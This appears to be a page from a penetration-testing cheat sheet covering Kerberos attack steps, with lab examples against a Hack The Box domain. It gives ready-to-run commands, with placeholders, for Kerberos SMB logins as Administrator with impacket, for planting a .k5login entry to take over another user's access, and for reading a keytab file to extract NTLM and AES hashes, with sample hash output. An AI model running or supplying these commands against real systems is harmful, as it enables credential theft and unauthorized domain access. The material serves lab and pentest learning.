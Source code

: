 
### SMB with Kerberos

```console
sudo ntpdate -s <DC_IP> && impacket-smbclient '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k -no-pass
```

```console {class="sample-code"}
$ sudo ntpdate -s DC.ABSOLUTE.HTB && impacket-smbclient 'ABSOLUTE.HTB/Administrator@DC.ABSOLUTE.HTB' -k -no-pass
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

Type help for list of commands
# 
```

---

### Add Kerberos Access in Linux

```console
echo '<USER>@<DOMAIN>' > /home/<TARGET_USER>/.k5login
```

---

### Extract NTLM from Keytab

```console
# Check
cat /etc/ktb5.keytab | base64 -w0
```

```console
# Extract
python3 keytabextract.py krb5.keytab 
```

```console {class="sample-code"}
$ python3 keytabextract.py krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : EXAMPLE.COM
        SERVICE PRINCIPAL : MAIL01$/
        NTLM HASH : 0f916c5246fdbc7ba95dcef4126d57bd
        AES-256 HASH : eac6b4f4639b96af4f6fc2368570cde71e9841f2b3e3402350d3b6272e436d6e
        AES-128 HASH : 3a732454c95bcef529167b6bea476458
```

<small>*Ref: [KeyTabExtract](https://github.com/sosdave/KeyTabExtract)*</small>